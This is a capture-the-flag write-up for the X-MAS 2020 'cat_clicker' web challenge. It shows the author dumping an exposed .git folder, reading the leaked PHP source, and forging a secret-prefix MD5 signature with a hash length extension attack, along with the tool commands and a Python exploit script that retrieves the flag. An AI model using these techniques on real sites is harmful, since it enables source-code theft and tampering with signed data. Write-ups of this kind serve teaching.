

    	
            
# cat_clicker


## Challenge Author(s):
`yakuhito`

## Description:
```
Ever wanted to rescue cats in a game very similar to cookie clicker? If the answer is yes, then Cat Clicker is the perfect game for you!
```

## Target:

`http://challs.xmas.htsp.ro:3003/`

## Objective:

Get *13 cats* (limit is *12 cats*) bypassing the `hash (MD5) check` in order to "buy" the flag (flag cost is 13 cats).

## Difficulty/Points: 
`hard/474`

## Flag:
`X-MAS{1_h4v3_s0_m4ny_c4t5_th4t_my_h0m3_c4n_b3_c0ns1d3r3d_4_c4t_sh3lt3r_aaf30fcb4319effa}`
# 


# Challenge
The challenge allows you to get *cats* by clicking on the *"Budinca image"*, up to a maximum of 12 cats. Then these *cats* can be used to buy in the *shop*, both *Fake Flag (1 cat)*, and the *Real Flag (TEH FLAGGGG!) (13 cats)*.


When we try to buy something, inside the *HTTP POST request* sent to `/api/buy.php` , a *hash value* previously generated by the web application backend is inserted in it (read function `buy(item_id)` in *script.js*)... This hash value can be read by going to the browser's Javascript console and typing `window.token`. In addition to the hash value, a *state* *"12 | 0"* is also fixed , which represents *"<limit_cats> | <own_cats>*" (`window.state`).




# Solution
Ideally, the hash value is used as a *digital signature* to ensure integrity on the "*state*" set by the web application, so that no one can modify the content of "state", without invalidating the signature. In fact, the PHP code in the *buy.php* page will probably do an initial check to validate the signature of the current "*state*" that is extracted from the HTTP POST request, to verify that the attacker has not modified it, for example by entering "13 | 13". `This means that, most likely, the hash value is generated by concatenating the string of the "state" generating by web application with a secret value and everything is then passed in input to a hash function (ex. MD5, SHA-1 etc.).`

So the idea is to get the `secret value` and `the hash function used (probably MD5)`, in order to correctly sign the "state": "13 | 13" and get the flag. Surely to achieve this, it would be advisable to leak the source codes of the PHP pages involved, especially */api/buy.php*.
Fortunately, the *web server (nginx)* allows us to access the contents of the hidden `.git folder`("*The .git folder contains all the information that is necessary for your project in version control and all the information about commits, remote repository address, etc. All of them are present in this folder. It also contains a log that stores your commit history so that you can roll back to history.*").
Using a *Git Dumper* (https://github.com/internetwache/GitTools/tree/master/Dumper), you can download the contents of the entire *.git folder* locally:
```console
matt@grol:~$ ./gitdumper.sh http://challs.xmas.htsp.ro:3003/.git/ /root/XMAS2020/cat_clicker
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /root/XMAS2020/cat_clicker/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/60/0c2781d8b6ebde35aba651804b3aab89e87b45
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/19/96c117c1611297c70e468db79da3818272afe4
[+] Downloaded: objects/89/8ff69d8da0fa7c500eca4881e25065000d7972
[+] Downloaded: objects/52/06047e0d1027bd6f5e51d5631c663ac0de5a2d
[+] Downloaded: objects/94/d84d8cb2cc7f469749224e7200f6358bcb4a25
[+] Downloaded: objects/3b/289292b5410ed174dd270e9a370d97777a6911
[+] Downloaded: objects/8b/67bc52ab15147566c9b2b4ea5262c107d3b9a8
[+] Downloaded: objects/92/75ee80bbdc458c2e8c587a9d66ee54dfb11ad1
[+] Downloaded: objects/55/293a2bfc92e2e0edd4a80e8ba6e45933954243
[+] Downloaded: objects/c1/9c87f22d3228559c44c9ccbb451c799d50609d
[+] Downloaded: objects/f6/351bc7d2896f6f1cc6b15d4ae96dc8fbda80f0
```
Moving to the locally downloaded *.git folder*, we can use the classic *git commands*, such as `git show`:
```console
matt@grol:/root/XMAS2020/cat_clicker/.git$ git show
commit 600c2781d8b6ebde35aba651804b3aab89e87b45 (HEAD -> master)
Author: Peter Quinn <fake.email@example.com>
Date:   Fri Nov 27 12:31:12 2020 +0200

    first commit

diff --git a/api/buy.php b/api/buy.php
new file mode 100644
index 0000000..9275ee8
--- /dev/null
+++ b/api/buy.php
@@ -0,0 +1,43 @@
+<?php
+
+include('helper.php');
+
+$state = $_POST['state'];
+$hash = $_POST['hash'];
+$itemId = $_POST['item_id'];
+
+if(!isset($state) || !isset($hash) || !isset($itemId) || !verifyState($state, $hash, true) || ($itemId !== "1" && $itemId !== "2")) {
+       echo json_encode(array('success' => false));
+       die();
+}
+
+$cats = getCatsNo($state);
+$item = "";
+$ok = true;
+
+if($itemId === "1") {
+       if($cats >= 1) {
+               $cats -= 1;
+               $item = "FAKE-X-MAS{fake-flag-dont-submit-signed-yakuhito}";
+       } else {
+               $ok = false;
+       }
+} else {
+       if($cats >= 13) {
+               $cats = 1337;
+               $item = getenv("FLAG");
+       } else {
+               $ok = false;
+       }
+}
+$parentsLimit = getParentsLimit($state);
+$newState = "$parentsLimit | $cats";
+$newHash = hashFor($newState);
...
```
Thanks to this command, we are able to obtain the different sources of the *PHP pages*, grouped in this *.rar file*:

<a href="cat_clicker.zip" download>Click to Download</a>

Reading the PHP sources, in *buy.php* we notice the initial presence of the mechanism for verifying the digital signature performed on the "state" extracted from the HTTP POST request (`!verifyState($state, $hash, true)`). If then this check is successful, it checks if *the number of cats* (in *$state*) that we own are greater than or equal to 13 and in that case it returns the flag:
```php
include('helper.php');

$state = $_POST['state'];
$hash = $_POST['hash'];
$itemId = $_POST['item_id'];

if(!isset($state) || !isset($hash) || !isset($itemId) || !verifyState($state, $hash, true) || ($itemId !== "1" && $itemId !== "2")) {
       echo json_encode(array('success' => false));
       die();
}

$cats = getCatsNo($state);
$item = "";
$ok = true;

if($itemId === "1") {
       if($cats >= 1) {
               $cats -= 1;
               $item = "FAKE-X-MAS{fake-flag-dont-submit-signed-yakuhito}";
       } else {
               $ok = false;
       }
} else {
       if($cats >= 13) {
               $cats = 1337;
               $item = getenv("FLAG");
       } else {
               $ok = false;
       }
}
```

Going to read the code in *helper.php*, we find defined the method of verification and generation of the digital signature, which coincides with what was supposed before, but unfortunately the 64-character *secret value* is not "hardcoded" in clear code:

```php

function hashFor($state) {
       $secret = getenv("SECRET_THINGY"); // 64 random characters - impossible to guess
       $s = "$secret | $state";
       return md5($s);
}


function verifyState($state, $hash) {
       return $hash === hashFor($state);
}

```
So to *forge* a fake `"state": "13 | 13"` that can bypass the signature verification, we need to take advantage of a particular attack called `Hash Length Extension attacks` (https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks), which can be performed on the MD5 when used in a scenario described as follows:
"*An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data.*" (`this is exactly the same scenario as the challenge, so this attack can be exploited`)

Using a particular tool (https://github.com/iagox86/hash_extender), it was possible to generate the *new state* (containing *"13 | 13"*) and the new *valid signature*, without knowing the *prepended 64-character secret*:

```console
matt@grol:~$ ./hash_extender -d "12 | 0" -s cf13ab76afb625f7f7d6c539c2cb3c84 -a "13 | 13" -f md5 -l 67
Type: md5
Secret length: 67
New signature: 8ec4883990c9f7fc76f3514fcd5d4597
New string: 3132207c2030800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048020000000000003133207c203133
```

Now all that remains is to send to */api/buy.php*, an *HTTP POST request* with the new "state" (`3132207c2030800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048020000000000003133207c203133`) generated (which contains "13 | 13"), the returned *hash value* (`8ec4883990c9f7fc76f3514fcd5d4597`) representing the correct digital signature and finally set the *"item_id"* to 2 (to indicate that we want to "buy" the real flag) (N.B the "state" must be converted from hex to ascii):

```python
import requests

burp0_url = "http://challs.xmas.htsp.ro:3003/api/buy.php"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0", "Accept": "*/*", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Referer": "http://challs.xmas.htsp.ro:3003/", "Content-Type": "multipart/form-data; boundary=---------------------------218239473026991957432047946206", "Origin": "http://challs.xmas.htsp.ro:3003", "Connection": "close"}
burp0_data = "-----------------------------218239473026991957432047946206\r\nContent-Disposition: form-data; name=\"state\"\r\n\r\n"+"3132207c2030800000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000048020000000000003133207c203133".decode('hex')+"\r\n-----------------------------218239473026991957432047946206\r\nContent-Disposition: form-data; name=\"hash\"\r\n\r\n8ec4883990c9f7fc76f3514fcd5d4597\r\n-----------------------------218239473026991957432047946206\r\nContent-Disposition: form-data; name=\"item_id\"\r\n\r\n2\r\n-----------------------------218239473026991957432047946206--\r\n"
print(requests.post(burp0_url, headers=burp0_headers, data=burp0_data).text)
```
And finally:
```console
matt@grol:~$ python2 exploit.py 
{"state":"12 | 1337","hash":"52586134e945c681089af25c36a1866f","success":true,"item":"X-MAS{1_h4v3_s0_m4ny_c4t5_th4t_my_h0m3_c4n_b3_c0ns1d3r3d_4_c4t_sh3lt3r_aaf30fcb4319effa}"}
```
